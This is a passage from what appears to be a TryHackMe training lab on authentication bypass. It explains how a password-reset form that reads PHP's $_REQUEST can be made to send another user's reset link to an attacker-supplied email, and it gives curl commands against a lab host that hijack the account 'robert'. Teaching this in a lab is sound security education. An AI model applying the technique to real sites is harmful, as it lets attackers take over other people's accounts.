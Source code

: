 At this stage, you may be wondering what the vulnerability could be in this application as you have to know both the email and username and then the password link is sent to the email address of the account owner. 

This walkthrough will require both of the below Curl Requests on the AttackBox which can be opened by using the Blue Button above. 

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string as a GET field.

Let's illustrate this by using the curl tool to manually make the request to the webserver. 

```shell
user@tryhackme$ curl 'http://10.10.214.229/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'`
```

We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request. 

In the application, the user account is retreived using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favors POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```shell
user@tryhackme$ curl 'http://10.10.214.229/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3d97e3e37bf9e4db4f95f4f945a7e290.png)

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format `{username}` @customer.acmeitsupport.thm

Now running **Curl Request 2** but with your `@acmeitsupport.thm` in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support ticket and reveal a flag. 

```shell
user@tryhackme:~$ curl 'http://10.10.214.229/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

# Cookie Tampering

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges. If you need a refresher on cookies, check out the HTTP in detail room. 
